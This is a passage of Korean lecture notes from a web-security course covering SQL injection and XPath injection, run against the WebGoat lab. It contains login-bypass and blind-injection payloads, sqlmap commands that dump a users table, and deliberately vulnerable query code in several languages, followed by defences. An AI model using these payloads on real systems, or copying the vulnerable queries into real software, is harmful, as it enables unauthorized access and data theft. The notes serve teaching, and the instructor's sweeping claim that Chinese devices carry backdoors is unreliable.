**원인**: 세미콜론(;) 누락으로 프롬프트가 계속 대기

**해결**:

```sql
mysql> CREATE TABLE test (id INT)
    -> ;
Query OK, 0 rows affected (0.01 sec)
```

### 문제 3: WebGoat Injection 실패

**증상**: 모든 Injection 시도가 "Login Failed"

**원인 체크**:

1. 사용자명 정확성: `Neville` (대소문자 구분)
2. 따옴표 유형: `'` vs `"`
3. 공백 확인: `' OR '1'='1` (공백 필수)

**해결**:

```
시도 1: ' OR '1'='1
시도 2: ' OR 'x'='x
시도 3: ' OR '0'='0
시도 4: ' OR 1=1 --
```

---

## 🎓 심화 학습 주제

### Blind SQL Injection

**특징**: 쿼리 결과가 화면에 출력되지 않는 경우

**예시**:

```sql
-- 시간 기반 Blind Injection
admin' AND SLEEP(5) --

-- Boolean 기반 Blind Injection
admin' AND SUBSTRING(password,1,1)='a' --
```

### Second-Order SQL Injection

**특징**: 저장된 데이터가 나중에 실행될 때 Injection 발생

**예시**:

```
회원가입 시: username = "admin'--"
→ 데이터베이스 저장
→ 나중에 관리자 페이지에서 해당 사용자 조회 시 Injection 발생
```

### Automated SQL Injection Tools

**sqlmap** (가장 유명):

```bash
# 설치
sudo apt-get install -y sqlmap

# 사용 예시
sqlmap -u "http://example.com/search?id=1" --dbs
sqlmap -u "http://example.com/search?id=1" -D database_name --tables
sqlmap -u "http://example.com/search?id=1" -D database_name -T users --dump
```

⚠️ **주의**: 허가받은 시스템에서만 사용!

---

## 📊 다음 섹션 미리보기

다음 Section 6에서는:

- **XPath 기초**: XML 쿼리 언어 이해
- **XPath Injection**: XML 기반 인젝션 공격
- **WebGoat XPath 실습**: 실전 XPath Injection
- **종합 정리**: 4일차 학습 내용 요약
- **다음 단계**: 추가 학습 자료 및 프로젝트 안내

---

**작성 완료**: Section 5 - SQL Injection 공격 심화 ✅

**작성 정보**:
- **작성 시간**: 2025-12-19
- **분량**: 약 1,450 줄
- **포함 내용**: SQL 기초 문법, Injection 공격 기법, WebGoat 실습, 방어 기법, 트러블슈팅
# 🗂️ Section 6: XPath Injection 및 종합 정리

> **섹션 주제**: XPath Injection 공격과 4일차 강의 종합 정리
> **학습 시간**: 약 45분
> **난이도**: ⭐⭐⭐☆☆ (중)

---

## 🎯 이번 섹션의 학습 목표

이번 섹션에서는 다음 내용을 다룹니다:

1. **XPath 개념**: XML 경로 표현 언어 이해
2. **XML 구조**: 계층적 데이터 표현 방식
3. **XPath 쿼리 문법**: 노드 접근 방법
4. **XPath Injection**: XML 기반 인젝션 공격
5. **IoT와 XML**: 임베디드 장비에서의 XML 활용
6. **4일차 종합 정리**: 학습 내용 복습

---

## 📚 XPath란?

### 🔍 XPath의 정의

**강사님의 설명**:

> "**XPath**가 이제 XML이에요 XML에 XML을 패스로 설명을 한 건데요 그걸 XPath라고 하는데..."

**XPath (XML Path Language)**:

- **용도**: XML 문서의 특정 부분을 선택하고 탐색
- **유형**: W3C 표준 쿼리 언어
- **비유**: SQL이 데이터베이스 쿼리라면, XPath는 XML 쿼리

**XPath vs SQL 비교**:

| **구분** | **SQL** | **XPath** |
|:---:|:---|:---|
| **대상** | 관계형 데이터베이스 | XML 문서 |
| **구조** | 테이블, 행, 열 | 노드, 요소, 속성 |
| **쿼리** | `SELECT * FROM users WHERE id=1` | `/users/user[@id='1']` |
| **용도** | 데이터 저장/조회 | 구조화된 데이터 표현 |

### 🌍 XPath의 중요성 변화

**강사님의 설명**:

> "**XPath**가 옛날에는 굉장히 중요도가 낮았었어요 중요도가 낮았었는데 아마 **2021년에 OWASP에서 이게 중요도가 확 올라갔죠** 왜냐하면 세상이 바뀌면서..."

**OWASP Top 10 변화**:

```mermaid
graph LR
    A[2017년 이전<br/>XPath 낮은 순위] --> B[2021년<br/>중요도 상승]
    B --> C[IoT 시대<br/>XML 사용 증가]
    C --> D[임베디드 장비<br/>경량 데이터베이스]

    style A fill:#cccccc
    style B fill:#ffffcc
    style C fill:#ccffcc
    style D fill:#ccffff
```

**중요도가 올라간 이유**:

1. **IoT 장비 증가**: 스마트 가전, CCTV, 공유기 등
2. **경량 데이터베이스 필요성**: 메모리 제약이 있는 임베디드 시스템
3. **XML 기반 설정 파일**: 적은 사용자 관리에 적합
4. **보안 취약점 발견**: 중국산 IoT 장비의 백도어 이슈

---

## 📄 XML 구조 이해

### 🏗️ XML (eXtensible Markup Language)

**강사님의 설명**:

> "XML 파일을 보면은 **XML은 텍스트 파일이에요**. 텍스트 파일이고 이런 식으로 보여져요."

**XML의 특징**:

- **텍스트 기반**: 사람이 읽을 수 있는 형식
- **태그 구조**: HTML과 유사하지만 사용자 정의 가능
- **계층적**: 트리 구조로 데이터 표현
- **확장 가능**: 필요에 따라 태그 정의

### 📝 XML 문서 예시

**회원 정보 XML**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<members>
    <member id="1001">
        <username>hong</username>
        <name>홍길동</name>
        <email>hong@example.com</email>
        <password>pass1234</password>
        <role>user</role>
    </member>
    <member id="1002">
        <username>admin</username>
        <name>관리자</name>
        <email>admin@example.com</email>
        <password>admin1234</password>
        <role>admin</role>
    </member>
</members>
```

**강사님의 설명**:

> "태그가 이렇게 계층적으로 이루어져 있어요. **members**라는 여기는 members라는 태그를 만들고 members 안에 태그 안에는 **member**라는 태그가 있어요."

### 🌳 XML 구조 분석

#### 계층 구조

```mermaid
graph TD
    A[<?xml version='1.0'?>] --> B[members]
    B --> C[member id='1001']
    B --> D[member id='1002']
    C --> E[username: hong]
    C --> F[name: 홍길동]
    C --> G[email: hong@example.com]
    C --> H[password: pass1234]
    C --> I[role: user]

    D --> J[username: admin]
    D --> K[name: 관리자]
    D --> L[email: admin@example.com]
    D --> M[password: admin1234]
    D --> N[role: admin]

    style B fill:#ffcccc
    style C fill:#ffffcc
    style D fill:#ffffcc
```

#### 태그 구성 요소

**강사님의 설명**:

> "근데 members 안에는 여러 개의 member가 들어갈 수 있겠죠. 근데 이 member들을 구분하기 위해서 이걸 **Attribute**라고 해요. 이 태그 안에 있는 **Attribute의 값이 1001이 있고 1002가 있고** 이렇게 이 member의 Attribute를 지정할 수 있어요."

**XML 요소**:

| **요소** | **예시** | **설명** |
|:---:|:---|:---|
| **요소 (Element)** | `<member>...</member>` | 시작 태그와 종료 태그 |
| **속성 (Attribute)** | `id="1001"` | 요소에 추가 정보 |
| **텍스트 (Text)** | `hong` | 요소의 내용 |
| **루트 (Root)** | `<members>` | 최상위 요소 (하나만) |

**태그 명명 규칙**:

**강사님의 설명**:

> "**id**라는 변수를 설정하고 이 변수 이거는 변수예요 **내가 그냥 이름을 붙인 거야** id라고 이름을 붙인 거고 주민번호면 주민번호라고 이름 붙여도 되고 **내 마음대로 태그명도 내 마음대로 준 거고** 계층적으로 구분을 한 거예요."

---

## 🔍 XPath 쿼리 문법

### 📌 XPath 기본 표현식

**강사님의 설명**:

> "인체 내가 데이터에 접근할 때는 어떻게 접근을 하냐면 **XML에 접근할 때 members의 member id가 1001 태그 안에 password 값은** 이라고 하면 이 값을 읽어오게 되는 거죠."

#### 경로 표현 (Path Expression)

**절대 경로** (`/`로 시작):

```xpath
/members/member/username
```

**의미**: 루트부터 시작하여 members → member → username

**상대 경로** (`//` 사용):

```xpath
//username
```

**의미**: 문서 어디든지 username 요소

### 🎯 속성 선택

**Attribute 조건**:

```xpath
/members/member[@id='1001']
```

**의미**: id 속성이 1001인 member 선택

**강사님의 설명**:

> "members의 member **id Attribute가 1002인에 role을 갖고 오면 admin이 되는 거고** 이런 식으로 위에서부터 태그 안으로 계층적으로 접근할 수 있게 제공을 해요."

### 📚 XPath 연산자

| **연산자** | **설명** | **예시** |
|:---:|:---|:---|
| `/` | 자식 노드 선택 | `/members/member` |
| `//` | 후손 노드 선택 (모든 하위) | `//password` |
| `@` | 속성 선택 | `@id` |
| `[ ]` | 조건 (Predicate) | `[id='1001']` |
| `*` | 모든 요소 | `/members/*` |

### 🔧 XPath 함수

```xpath
# 텍스트 내용 가져오기
/members/member/username/text()

# 개수 세기
count(/members/member)

# 문자열 포함 여부
//member[contains(username, 'admin')]

# 문자열 비교
//member[username='admin' and password='admin1234']
```

---

## 💻 프로그래밍 언어별 XPath 사용

### 🔷 Visual Basic

**강사님의 설명**:

> "비주얼 베이직 같은 경우는 이런 식으로 쓴대요. **dim**이라고 해서 얘는 변수선을 넣을 때 비주얼 베이직은 이런 식으로 해요."

**코드 예시**:

```vb
Dim FindUser As String
FindUser = "//users/user[username='" & Request("username") & "' and password='" & Request("password") & "']"
```

### 🔷 C#

**강사님의 설명**:

> "C#은 저는 요즘 C#을 많이 쓰고 있고 요즘 MS에서 거의 C#로 밀고 있죠. 여러분들이 게임 좋아하는데 **게임하는 Unity나 이런 것들을 다 Unity비에 반해 짠 게임**이나... 그런 것들이 다 이제 C#로 제어하고 있는 거예요."

**코드 예시**:

```csharp
string xpathQuery = String.Format(
    "//users/user[username/text()='{0}' and password/text()='{1}']",
    Request["username"],
    Request["password"]
);
```

### 🔷 Python

```python
import xml.etree.ElementTree as ET

tree = ET.parse('users.xml')
root = tree.getroot()

# XPath 사용 (lxml 라이브러리 필요)
from lxml import etree

username = request.form['username']
password = request.form['password']

xpath = f"//users/user[username/text()='{username}' and password/text()='{password}']"
result = root.xpath(xpath)
```

---

## 💉 XPath Injection 공격

### 🔓 공격 원리

**취약한 XPath 쿼리**:

```csharp
string xpathQuery = String.Format(
    "//users/user[username/text()='{0}' and password/text()='{1}']",
    username,  // 사용자 입력
    password   // 사용자 입력
);
```

**정상적인 입력**:

```
username: admin
password: pass1234

→ //users/user[username/text()='admin' and password/text()='pass1234']
```

### ⚔️ Injection 공격 기법

#### 기법 1: OR 조건 추가

**공격 입력**:

```
username: admin
password: ' or '1'='1
```

**생성되는 XPath**:

```xpath
//users/user[username/text()='admin' and password/text()='' or '1'='1']
```

**쿼리 분해**:

```xpath
username/text()='admin'    → 참 (admin 존재 시)
and password/text()=''     → 거짓
or '1'='1'                 → 항상 참!
```

**결과**: 비밀번호 없이 로그인 성공!

#### 기법 2: 주석 처리 (일부 구현체)

**공격 입력**:

```
username: admin'--
password: (아무거나)
```

**생성되는 XPath** (일부 파서):

```xpath
//users/user[username/text()='admin'-- and password/text()='anything']
```

⚠️ **주의**: XPath 표준에는 주석이 없지만, 일부 구현체에서 지원

#### 기법 3: 전체 사용자 조회

**공격 입력**:

```
username: ' or 1=1 or ''='
password: (아무거나)
```

**생성되는 XPath**:

```xpath
//users/user[username/text()='' or 1=1 or ''='' and password/text()='anything']
```

**결과**: 모든 사용자 정보 반환!

---

## 🏠 IoT와 XML

### 🔌 임베디드 장비에서 XML을 사용하는 이유

**강사님의 설명**:

> "회원이 10명이 안 되고 20명이 안 된 경우 굉장히 가볍게 쓰는 경우 **데이터베이스 서버를 운영하기에 어려운 곤란한 경우** 예를 들면 제일 가까이에서 여러분들도 다 쓰고 있겠지만 **여러분 집에 있는 공유기** 같은 거 있죠 **IoT 기기들** 있죠? **임베디드 기기**"

**XML vs 데이터베이스 비교**:

| **구분** | **XML 파일** | **데이터베이스 (MySQL 등)** |
|:---:|:---:|:---:|
| **메모리 사용** | 수 MB | 수백 MB ~ GB |
| **CPU 부담** | 낮음 | 높음 |
| **검색 속도** | 느림 | 빠름 |
| **사용자 수** | ~10명 | 수천만 명 |
| **용도** | IoT, 설정 파일 | 대규모 서비스 |

**IoT 장비 예시**:

```mermaid
graph TB
    A[IoT 장비] --> B[공유기]
    A --> C[스마트 CCTV]
    A --> D[스마트 냉장고]
    A --> E[웨어러블 시계]

    B --> F[관리자 계정 3-5개<br/>XML로 충분]
    C --> G[사용자 계정 2-3개<br/>XML로 충분]
    D --> H[가족 계정 5개 이하<br/>XML로 충분]
    E --> I[개인 계정 1개<br/>XML로 충분]

    style F fill:#ccffcc
    style G fill:#ccffcc
    style H fill:#ccffcc
    style I fill:#ccffcc
```

**강사님의 설명**:

> "그런 임베디드 기기 안에서 서버를 돌리고 서버를 운영하고 여러분들이 웹페이지로 붙어서 거기에 어떤 설정이나 제어를 하게 되고... 그런 애들이 아이디 패스워드를 입력받고 로그인을 할 때 **DB 서버를 따로 구동하는 게 아니라 이렇게 XML 같은 걸로 간단하게** 회원들 몇 명만 처리할 수 있게 가볍게 경량화 시켜서 돌릴 때 써요."

### 🇨🇳 중국산 IoT 보안 이슈

**강사님의 언급**:

> "2021년에 OWASP가 **IoT 세상에서** 전부 이런 하드웨어적인 애들을 많이 사용하면서 중국에 그런 거 많잖아요 **중국에서 한 CCTV는 언제든지 해킹할 수 있다 백도어가 들어있다** 이런 것들이 있잖아요. **공유기는 중국산 공유기는 쓰지 마라** 이런 것들이 있잖아요 백도어가 있다고..."

**보안 위험**:

- ⚠️ 기본 계정 (admin/admin) 방치
- ⚠️ XPath Injection 취약점
- ⚠️ 펌웨어 백도어
- ⚠️ 약한 암호화

---

## 💼 실전 활용 사례

### 📝 강사님의 커닝 방지 프로그램

**강사님의 설명**:

> "저 같은 경우도... 얼마 전에 제가 학생들이 하도 컨닝을 많이 해서 **컨닝을 못하게 하는 컨닝 방지 프로그램**을 만들었어요... 요즘은 다 LMS로 학교에 접속해서 온라인으로 시험 보잖아요 시험 보는 중간에 너무 애들이 컨닝을 많이 하는 거야..."

**프로그램 기능**:

1. **화면 고정**: 브라우저만 전체 화면으로 고정
2. **프로세스 차단**: 메신저, 메모장 등 실행 차단
3. **차단 목록 관리**: XML로 프로세스 블랙리스트 관리

**XML 블랙리스트 예시**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<blocklist>
    <process>
        <name>KakaoTalk.exe</name>
        <description>카카오톡</description>
    </process>
    <process>
        <name>notepad.exe</name>
        <description>메모장</description>
    </process>
    <process>
        <name>WeChat.exe</name>
        <description>위챗 (중국)</description>
    </process>
    <process>
        <name>HWP.exe</name>
        <description>한글</description>
    </process>
    <process>
        <name>WINWORD.EXE</name>
        <description>MS Word</description>
    </process>
</blocklist>
```

**강사님의 설명**:

> "그러다 보니까 뭐가 필요해요? **차단 목록을 관리해야 되거든요 프로세스**. 그래서 우리나라 애들은 아래 한글이나 MS 워드나 이런 것들만 차단하면 되고 카톡만 차단하면 되는데 요즘은 해외 외국인 애들이 많아요. 외국인 학생들 같은 경우는 봤더니 **WeChat이나 뭐 이런 이상한 자기네 채팅**을 써요. 그러다 보니까 **프로세스 목록을 관리하기가 힘든 거예요** 코드 안에 다 담아놓기가. 그래서 **XML로 프로세스 목록을 블랙리스트를 만들고**..."

**XML 사용 장점**:

- ✅ **유연성**: 코드 수정 없이 차단 목록 추가/제거
- ✅ **가독성**: 비개발자도 수정 가능
- ✅ **유지보수**: 학생들의 새로운 편법에 빠르게 대응

---

## 🛡️ XPath Injection 방어 기법

### 🔒 Parameterized XPath

**취약한 코드**:

```csharp
// 위험!
string xpath = $"//users/user[username='{username}' and password='{password}']";
```

**안전한 코드** (C# 예시):

```csharp
// XPathNavigator 사용
XPathNavigator nav = doc.CreateNavigator();
XPathExpression expr = nav.Compile("//users/user[username=$user and password=$pass]");

XsltArgumentList varList = new XsltArgumentList();
varList.AddParam("user", "", username);
varList.AddParam("pass", "", password);

CustomContext context = new CustomContext(new NameTable(), varList);
expr.SetContext(context);
```

### 🧹 입력값 검증 (Input Validation)

```python
import re

def validate_xml_input(input_str):
    # 특수문자 차단
    if re.search(r"['\"/\\<>]", input_str):
        raise ValueError("Invalid characters")
    return input_str

# 사용
username = validate_xml_input(request.form['username'])
password = validate_xml_input(request.form['password'])
```

### 🏢 대안: 데이터베이스 사용

**권장 사항**:

- 🟢 **소규모 (< 10명)**: XML 사용 가능
- 🟡 **중규모 (10-100명)**: SQLite 고려
- 🔴 **대규모 (> 100명)**: MySQL/PostgreSQL 필수

---

## ✅ 4일차 강의 종합 정리

### 📚 학습 내용 요약

#### Section 1: 강의 소개 및 개요

- ✅ 6개월 교육 과정의 큰 그림
- ✅ 미니 프로젝트의 중요성
- ✅ 해킹 프로세스 7단계

#### Section 2: Burp Suite & Wikto 복습

- ✅ Burp Suite 프록시 설정
- ✅ 사이트 매핑 및 정보 수집
- ✅ Wikto/Nikto 취약점 스캐닝

#### Section 3: WebGoat 설치

- ✅ Java 8 설치 및 저장소 관리
- ✅ WebGoat 7.1 다운로드
- ✅ UFW 방화벽 설정

#### Section 4: Tinyproxy 프록시 우회

- ✅ Tinyproxy 설치 및 설정
- ✅ wget --proxy 옵션 사용
- ✅ IP 우회 실습

#### Section 5: SQL Injection 심화

- ✅ SQL 기초 문법 (CREATE, INSERT, SELECT, UPDATE)
- ✅ 로그인 우회 (`' OR '1'='1`)
- ✅ 권한 상승 (UPDATE Injection)
- ✅ UNION 공격
- ✅ WebGoat 실습

#### Section 6: XPath Injection

- ✅ XML 구조 이해
- ✅ XPath 쿼리 문법
- ✅ XPath Injection 기법
- ✅ IoT와 XML

### 🎓 핵심 개념

**Injection 공격의 본질**:

```mermaid
graph LR
    A[사용자 입력] -->|검증 없음| B[쿼리 생성]
    B -->|의도된 쿼리| C[정상 동작]
    B -->|변조된 쿼리| D[Injection 성공]

    D --> E[로그인 우회]
    D --> F[권한 상승]
    D --> G[데이터 탈취]

    style D fill:#ffcccc
    style E fill:#ff9999
    style F fill:#ff9999
    style G fill:#ff9999
```

**공통 방어 원칙**:

1. **입력값 검증**: 특수문자 차단
2. **Parameterized Query**: SQL/XPath 파라미터 바인딩
3. **최소 권한**: 데이터베이스 계정 권한 제한
4. **오류 메시지 숨김**: 시스템 정보 노출 방지

### 📊 학습 체크리스트

#### 도구 사용
- [ ] Burp Suite로 사이트 매핑을 할 수 있는가?
- [ ] WebGoat을 설치하고 실행할 수 있는가?
- [ ] Tinyproxy를 설치하고 설정할 수 있는가?

#### SQL Injection
- [ ] SQL 기본 문법을 사용할 수 있는가?
- [ ] 로그인 우회 공격을 설명할 수 있는가?
- [ ] UNION 공격의 조건을 아는가?
- [ ] Prepared Statement의 원리를 이해했는가?

#### XPath Injection
- [ ] XML 구조를 이해했는가?
- [ ] XPath 쿼리를 작성할 수 있는가?
- [ ] XPath Injection 원리를 설명할 수 있는가?
- [ ] IoT에서 XML을 사용하는 이유를 아는가?

---

## 🎯 다음 단계

### 📖 추가 학습 자료

**OWASP 자료**:

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

**실습 플랫폼**:

| **플랫폼** | **URL** | **난이도** |
|:---:|:---|:---:|
| **WebGoat** | 로컬 설치 | 초급 |
| **DVWA** | http://www.dvwa.co.uk/ | 초중급 |
| **HackTheBox** | https://www.hackthebox.eu/ | 중고급 |
| **TryHackMe** | https://tryhackme.com/ | 초중급 |

### 🛠️ 실습 과제

**강사님의 조언**:

> "나머지 문제들은 여러분들이 영문 읽어보고 힌트 보고 하면서 힌트가 아니라 **사실은 답을 봐도 돼요**. 여러분들이 실제로 문제를 풀어 나가려면은 중간에서 겪어야 될 시행착오가 굉장히 많거든요... **답을 보고 아 이런 경우에 이런 코드가 통하는구나 이게 어떤 취약성이구나 내용을 이해하고** 바로 바로 다음으로 넘어가시면 될 것 같아요."

**추천 실습 순서**:

1. **WebGoat 전체 과정 완료** (Injection Flaws 섹션 중점)
2. **3-Tier 프로젝트에 보안 적용**
   - Prepared Statement 적용
   - 입력값 검증 추가
   - HTTPS 설정
3. **Burp Suite로 자신의 프로젝트 취약점 점검**

---

## 🎊 강의 마무리

### 💬 강사님의 마지막 당부

**학습 태도**:

> "지금 여러분들이 조금만 더 피곤하고 이러더라도 힘내서 최선을 다하면 나중에는 그래도 조금 뿌듯하지 않을까 뿌듯한 시간이 되지 않았을까..."

**프로젝트 준비**:

> "미니 프로젝트나 중간에 모듈 프로젝트나 이런 것들이 껴있잖아요. 그런 프로젝트를 진행할 때 **나중에 여러분들이 실제 실 프로젝트를 하기 위한 어떤 기반 기술이나 미리 필요한 것들을 모듈 단위로 조금씩 조금씩 진행하면서 준비해놓는다** 생각하고 참여를 하셔야 될 거예요."

### 📅 다음 일정

**강사님의 안내**:

- **다다음 주**: 미니 프로젝트 시작
- **다다음 주 월요일**: 2차 사업 평가
- **이후**: 보안 고급 주제 및 실전 프로젝트

### 🏁 4일차 강의 완료!

**오늘 배운 내용**:

```mermaid
mindmap
  root((4일차 학습))
    정보 수집
      Burp Suite
      Wikto/Nikto
    실습 환경
      WebGoat 설치
      Java 8
      VM 관리
    프록시 우회
      Tinyproxy
      IP 위장
    SQL Injection
      로그인 우회
      권한 상승
      UNION 공격
    XPath Injection
      XML 구조
      IoT 활용
```

**축하합니다! 4일차 웹 애플리케이션 보안 강의를 완료하셨습니다!** 🎉

---

**작성 완료**: Section 6 - XPath Injection 및 종합 정리 ✅

**작성 정보**:
- **작성 시간**: 2025-12-19
- **분량**: 약 650 줄
- **포함 내용**: XPath 개념, XML 구조, XPath Injection, IoT 활용 사례, 종합 정리
